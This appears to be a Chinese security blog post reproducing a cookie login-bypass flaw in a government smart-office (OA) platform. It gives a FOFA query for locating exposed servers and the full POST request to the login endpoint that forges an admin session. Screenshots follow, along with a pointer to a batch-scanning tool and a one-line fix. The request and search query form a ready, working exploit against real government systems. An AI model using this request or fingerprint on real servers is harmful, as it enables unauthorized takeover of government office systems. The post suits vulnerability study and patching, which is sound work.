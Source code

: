 #  【漏洞复现】数字通云平台智慧政务cookie登录绕过漏洞   
原创 清风  白帽攻防   2024-11-21 01:22  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
数字通云平台的智慧政务OA产品，依托云计算、大数据和人工智能等前沿技术，专为政府部门设计，旨在提升办公效率、协作能力和信息共享水平，推动电子政务向更高层次的发展。  
由中科数字通（北京）科技有限公司研发的这套全新智慧办公系统，包含了9大类、50多个核心功能模块，致力于为政府机关提供先进的协同办公解决方案。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eMbALDmrUvoabgUricXz6ChH0pepuF0BKHqIC6tCNmwG1pI8m3wbZjSGoQj3zVlLqI2yBuRcU2VBA/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞描述  
  
数字通云平台的智慧政务系统存在登录绕过漏洞，在OA系统的login接口中存在未授权访问默认cookie的风险，未经身份验证的远程攻击者可利用此漏洞伪造登录，从而获得对系统的完全控制权限。  
fofa语法```
body="assets/8cca19ff/css/bootstrap-yii.css"
```  
漏洞复现```
POST /portal/default/login HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
   
userID=admin&flag=rone
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eMbALDmrUvoabgUricXz6CheT7F9SqIsuxJEKkdYFLI6eaduVdSOd3ocB2dur2cYvYOp0r5pEW03Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eMbALDmrUvoabgUricXz6ChFcGRZQo3H2lictWFL5k6ziaHP4ia4rGjcYxxyI1qkpWLhic7ZA5yepGxwQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eMbALDmrUvoabgUricXz6ChM6TQpOKEF1DuQPpJnaXa3MtOcw3jdKFbDicuSywrRmdwHwicKmPvn4Xw/640?wx_fmt=png&from=appmsg "")  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eMbALDmrUvoabgUricXz6ChokxTamW1w0uGGbJZS05ZXPxa0vIzfZI43WVgzHMBZRJPBcGyLjU0mg/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
  
禁用默认获取cookie接口  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
